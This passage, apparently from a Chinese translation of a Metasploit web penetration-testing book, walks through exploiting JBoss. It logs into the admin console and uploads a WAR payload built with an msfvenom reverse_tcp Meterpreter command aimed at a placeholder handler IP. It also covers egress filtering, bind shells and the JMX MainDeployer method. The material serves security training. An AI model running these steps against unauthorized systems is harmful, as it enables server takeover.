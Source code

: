 ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/7a9e93c7-7c86-490b-b096-07b77df25442.png)

一旦我们成功登录，我们将看到下图所示的页面：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/e8daf257-f5cd-456d-a794-cddce4600c40.png)

利用的下一步是找到一种在服务器上执行命令的方法，以便我们获得服务器级别的访问权限。从左侧菜单中选择 Web 应用程序（WAR）选项，您将被重定向到下图所示的页面。我们将点击“添加新资源”按钮：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/06cb8a26-8af6-4c99-afe0-2f617bd5a053.png)

这将带我们到一个新页面，在那里我们将看到上传 WAR 文件的选项。可以使用以下命令使用`msfvenom`生成 WAR 文件： 

```
msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

一旦我们生成了基于 WAR 的 Metasploit 有效载荷，我们将把文件上传到控制台的 Web 应用程序（WAR）部分，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/ecada5d0-cd8f-4a8f-a965-fa3c580e165d.png)

一旦文件成功上传，我们只需要转到它被提取到的目录，并在我们的 Web 浏览器上打开它以获取 Meterpreter 连接，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/3ed42436-8f10-4367-bfb6-beea5686b4ff.png)

在运行有效载荷之前，有一些需要考虑的事情，最重要的是检查出口连接。如果有效载荷被执行，但防火墙阻止对我们服务器的出口流量（出站连接），我们需要找到一种方法来获取反向 shell。如果没有办法做到这一点，我们总是可以选择绑定连接到服务器。

# 通过 JMX 控制台进行利用（MainDeployer 方法）

请考虑来自官方 JBoss 文档的以下引用（可在[`docs.jboss.org/jbossas/docs/Getting_Started_Guide/4/html-single/index.html`](https://docs.jboss.org/jbossas/docs/Getting_Started_Guide/4/html-single/index.html)找到）：

“JMX 控制台是 JBoss 管理控制台，它提供了服务器组成的 JMX MBeans 的原始视图。它们可以提供有关运行服务器的大量信息，并允许您修改其配置，启动和停止组件等。”

如果我们发现 JBoss 有未经身份验证访问 JMX 控制台的实例，我们可以使用`MainDeployer`选项将 shell 上传到服务器。这允许我们从远程 URL 获取 WAR 文件并在服务器上部署它。JMX 控制台如下图所示：

